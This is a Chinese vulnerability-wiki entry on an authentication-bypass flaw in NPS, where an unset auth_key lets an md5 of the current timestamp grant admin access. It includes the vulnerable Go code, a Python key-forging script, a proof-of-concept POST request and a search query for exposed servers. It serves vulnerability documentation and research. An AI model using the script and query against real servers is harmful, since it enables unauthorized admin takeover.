




# NPS auth_key 未授权访问漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：auth_key未配置/空值、服务器时间与提供timestamp差不超过20秒、管理端可达
- 证据范围：源码与hash生成对应，空密钥前提清楚；请求参数认证不能一概等同永久登录会话。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 版本仅NPS，缺受影响commit及修复
- 示例timestamp为旧固定值必须每次生成，时钟偏差会失败
- POST /client/list缺HTTP版本/Host/Content-Type等完整请求
- 代码只SetSession isAdmin未SetSession auth，后续各请求可能仍需附hash，缺明确说明
- 无加密强auth_key/限制管理暴露等修复章节

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

```
NPS
```

## 网络测绘

```
body="serializeArray()" && body="/login/verify"
```

## 漏洞复现

登录页面



在 web/controllers/base.go 文件中



```
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标



```python
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
